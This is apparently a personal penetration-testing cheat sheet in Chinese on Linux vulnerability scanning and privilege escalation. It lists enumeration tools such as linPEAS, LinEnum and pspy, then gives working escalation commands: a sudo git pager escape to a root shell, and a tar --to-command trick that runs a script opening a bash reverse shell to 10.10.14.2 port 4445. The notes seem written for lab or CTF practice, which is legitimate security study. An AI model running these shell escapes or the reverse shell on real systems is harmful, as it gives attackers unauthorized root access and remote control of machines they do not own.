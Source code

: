 ```yaml
---
title: Linux漏洞扫描与提权
date: 2021/12/12
tags: [linux,渗透测试,漏洞利用]
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
---
```




# Linux漏洞扫描与提权

## 漏洞扫描

- msf

```
use post/multi/recon/local_exploit_suggester
```

- **[windows-exploit-suggester.py](https://github.com/mxrmiss/Automation-script/blob/cb1807ed3582b9d965f77d048f5a8952a69ddd5d/Windows-Exploit-Suggester/Windows-Exploit-Suggester-master/windows-exploit-suggester.py)**
    - 需要安装pip2



- pspy

```
需要先给pspy脚本执行权力才能执行
```

- linPEAS

```
git clone https://github.com/mxrmiss/PEASS-ng.git
```



- LinEnum

```
git clone https://github.com/mxrmiss/LinEnum.git
```





## 提权

-  git

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```

-  tar

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.2/4445 0>&1' > xxx.sh
tar -cvf xxx.tar xxx.sh
sudo  -u onuma tar -xvf xxx.tar --to-command /bin/bash
```





